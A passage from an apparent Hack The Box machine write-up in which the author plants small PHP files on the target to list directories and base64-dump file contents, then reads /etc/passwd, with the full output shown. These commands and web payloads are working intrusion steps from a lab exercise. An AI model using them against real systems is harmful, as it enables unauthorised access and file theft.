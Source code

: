 Let's give a shot to `read.sh`.

```
# ./read.sh info.php > info.html
```


{% include image.html image_alt="1ffdb626.png" image_src="/495619aa-ab62-4bd9-92a7-61d4f7905c78/1ffdb626.png" %}


Plenty of disabled functions :angry:

### Getting a Low-Privilege Shell

Looks like I can only perform very specific PHP functions like `scandir`, `file_get_contents`, etc. Well, let's go ahead and create specific PHP files, `ls.php` and `cat.php`, corresponding to their Linux counterparts respectively.

```
# ./write.sh ls.php '<?php echo "\n\n\n\n\n"; print_r(scandir($_GET[0])); ?>'
# ./write.sh cat.php '<?php echo "\n\n\n\n\n"; echo base64_encode(file_get_contents($_GET[0])); ?>'
```

It's customary to read `/etc/passwd`.

```
# ./read.sh cat.php?0=/etc/passwd | base64 -d
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:109::/run/uuidd:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
rijndael:x:1001:1001:,,,:/home/rijndael:/bin/bash
mysql:x:107:113:MySQL Server,,,:/nonexistent:/bin/false
```


[1]: https://www.hackthebox.eu/home/machines/profile/183
[2]: https://www.hackthebox.eu/home/users/profile/2571
[3]: https://www.hackthebox.eu/home/users/profile/21927
[4]: https://www.hackthebox.eu/